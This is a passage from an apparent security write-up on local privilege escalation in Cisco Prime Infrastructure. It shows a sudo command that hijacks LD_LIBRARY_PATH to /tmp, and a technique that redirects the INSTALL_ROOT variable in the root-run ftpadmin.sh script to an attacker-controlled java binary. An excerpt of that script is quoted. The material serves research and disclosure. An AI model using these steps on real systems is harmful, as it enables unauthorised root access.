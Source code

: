 ```bash
sudo LD_LIBRARY_PATH=/tmp /opt/CSCOlumos/rcmds/fdiskl
```

---

## PrivEsc #8

In this privilege escalation technique, we exploit the environment variables in the `ftpadmin.sh` script, particularly `$INSTALL_ROOT`, which determines the path for Java executables. Since the script runs as sudo and checks `INSTALL_ROOT` for paths, we can modify it to execute our own Java script, gaining elevated privileges.

In `ftpadmin.sh`, the script calls Java programs from `$INSTALL_ROOT/jre64/bin/java` to manage FTP credentials. By modifying `$INSTALL_ROOT` to point to a directory we control (e.g., `/tmp`), we redirect the script to execute a custom version of java instead of the intended executable.

```bash
#!/bin/bash
. /etc/sysconfig/clock
CD=`/usr/bin/dirname $0`
export XMP_HOME=${XMP_HOME:-/opt/CSCOlumos}
export INSTALL_ROOT=${INSTALL_ROOT:-/opt/CSCOlumos}

export SVC_NAME=vsftpd
export SVC_DISP_NAME="FTP Service"
export LOG_FILE=$XMP_HOME/logs/ftpadmin.log

USERNAME=${FTP_UNAME:-ftp-user}
PASSWD_EXPIRY_DAYS="+60"
FTP_PASSWD_PARAM=builtin-ftp-user

SECRETS_FOLDER=$XMP_HOME/conf/secrets
FTP_PASS_FILE=ftp.pwd
FTP_USER_SET_FLAG=".ftpUsrPass"
LOCKFILE=/var/lock/ftp/.passwdrstlck
PASSFILE=${SECRETS_FOLDER}/${FTP_PASS_FILE}
USRFLAGFILE=${SECRETS_FOLDER}/${FTP_USER_SET_FLAG}

PRIMEUSER=prime
GROUPNAME=gadmin

. $CD/inetsvcadmin.sh

mkdir -p /var/lock/ftp
mkdir -p $SECRETS_FOLDER

#Set the password to linux account and generate a log event.
function updatePasswd {
    logger -p local0.info "Auto resetting of password for $USERNAME"
    resp=`echo "$1" | passwd --stdin $USERNAME`
    logger -p local0.info "$resp"
    log2file "Updated FTP account password"
}

############################################################################################################################################################################
#As of not FTP password needs to be set in three places.
#     1) $PASSFILE -> Stored using symmetric encryption for consumption of other components.
#     2) Data base for legacy reasons. This will be eventually removed in Lanani. DB storage makes a dependency that both DB and main JVM should be up for password reset.
#     3) Linux account
#
#Logic of this function is as follows:
#     1) $PASSFILE is the primary source for the password.
```